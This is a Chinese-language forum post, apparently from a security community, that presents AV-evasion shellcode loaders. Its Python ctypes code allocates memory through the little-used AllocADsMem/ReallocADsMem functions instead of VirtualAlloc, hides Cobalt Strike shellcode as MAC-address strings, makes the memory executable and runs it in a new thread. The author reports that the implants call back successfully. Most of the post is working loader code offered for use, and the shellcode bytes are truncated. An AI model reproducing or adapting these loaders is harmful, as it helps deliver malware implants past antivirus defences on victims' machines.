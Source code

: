 内存申请
====

在现在许多的shellcode加载器中，内存申请是必不可少的一部分，常用的就是VirtualAlloc函数来申请一块动态内存来存放我们的shellcode。

再后来，为了逃避检测申请内存的行为，采用了渐进式加载模式，也就是申请一块可读可写不可执行的内存，使用VirtualProtect函数将内存区块设置为可执行，从而规避检测。

然而现在也有杀软对VirtualAlloc和VirtualProtect连用进行查杀。。。。

新发现
===

在前几天找mac，ipv4那些内存加载函数时，一同发现了两个有意思的AllocADsMem和ReallocADsMem函数，竟然能申请内存？哎嗨？好玩。今就研究研究能利用一下不。

函数介绍
====

### AllocADsMem

该函数在Activeds.dll库中，可以分配的指定大小的存储块。

函数原型：

<https://docs.microsoft.com/en-us/windows/win32/api/adshlp/nf-adshlp-allocadsmem>

```php
LPVOID AllocADsMem(
  DWORD cb
);
```

参数是要分配的内存大小，成功调用则返回一个指向已分配内存的非NULL指针， 如果不成功，则返回NULL。

看这描述就是申请一个内存啊，但是测试发现该内存可读可写不可执行，所以可以用VirtualProtect修改为可执行属性

```php
ptr1 = ctypes.windll.Activeds.AllocADsMem(len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr1, len(shellcode), 0x40, ctypes.byref(ctypes.c_long(1)))
```

### ReallocADsMem

该函数在 Activeds.dll库中，可以复制指定内存内容，并新申请一块内存用来存储

函数原型：

<https://docs.microsoft.com/en-us/windows/win32/api/adshlp/nf-adshlp-reallocadsmem>

```php
LPVOID ReallocADsMem(
  LPVOID pOldMem,
  DWORD  cbOld,
  DWORD  cbNew
);
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9970d103c72822b329736bd119e46b29153e95f9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9970d103c72822b329736bd119e46b29153e95f9.png)

调用成功返回一个指向新分配内存的指针，否则返回NULL。

看介绍啊，这个函数干了两个函数的事，申请内存和复制内存，但是只能从内存中复制

但是我们就是愁怎么往内存中复制内容，所以这个函数看着很鸡肋

但是突发奇想，这函数能不能混淆视线，用AllocADsMem申请的内存我不用就是玩，我用ReallocADsMem将内容复制出来申请一个新内存，将该内存改为可执行。

```php
ptr2 = ctypes.windll.Activeds.ReallocADsMem(ptr,len(shellcode),len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr2, len(shellcode), 0x40, ctypes.byref(ctypes.c_long(1)))
```

测试
==

使用的mac加载器，测试的将VirtualAlloc替换为AllocADsMem函数，并改为可执行内存

环境py2.7，使用cs生成的64位shellcode

```php
import ctypes

shellcode = b"\xfc\x48\x83\"

macmem = ctypes.windll.Activeds.AllocADsMem(len(shellcode)/6*17)
for i in range(len(shellcode)/6):
     bytes_a = shellcode[i*6:6+i*6]
     ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_a, macmem+i*17)

list = []
for i in range(len(shellcode)/6):
    d = ctypes.string_at(macmem+i*17,17)
    list.append(d)

ptr = ctypes.windll.Activeds.AllocADsMem(len(list)*6)
rwxpage = ptr
for i in range(len(list)):
    ctypes.windll.Ntdll.RtlEthernetStringToAddressA(list[i], list[i], rwxpage)
    rwxpage += 6

ctypes.windll.kernel32.VirtualProtect(ptr, len(list)*6, 0x40, ctypes.byref(ctypes.c_long(1)))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleO bject(handle, -1)
```

成功上线  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-082e917a4f4e2c3e71d5206020203e1f8548a953.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-082e917a4f4e2c3e71d5206020203e1f8548a953.png)

接下来用ReallocADsMem来混淆一下视线，AllocADsMem申请的内存可读可写即可，ReallocADsMem申请的内存改为可执行

相同环境，测试上线

```php
import ctypes

shellcode = b"\xfc\x48\x83......"

macmem = ctypes.windll.Activeds.AllocADsMem(len(shellcode)/6*17)
for i in range(len(shellcode)/6):
     bytes_a = shellcode[i*6:6+i*6]
     ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_a, macmem+i*17)

list = []
for i in range(len(shellcode)/6):
    d = ctypes.string_at(macmem+i*17,17)
    list.append(d)

ptr = ctypes.windll.Activeds.AllocADsMem(len(list)*6)
rwxpage = ptr
for i in range(len(list)):
    ctypes.windll.Ntdll.RtlEthernetStringToAddressA(list[i], list[i], rwxpage)
    rwxpage += 6

ptr2 = ctypes.windll.Activeds.ReallocADsMem(ptr,len(list)*6,len(list)*6)
ctypes.windll.kernel32.VirtualProtect(ptr2, len(list)*6, 0x40,ctypes.byref(ctypes.c_long(1)))

handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr2, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleO bject(handle, -1)
```

依旧成功上线  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6860743e049087a12239cf7eedf57c69934a0cdf.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6860743e049087a12239cf7eedf57c69934a0cdf.png)

小结
==

免杀没有测试，只是分享思路，申请内存函数不只是那一个能用。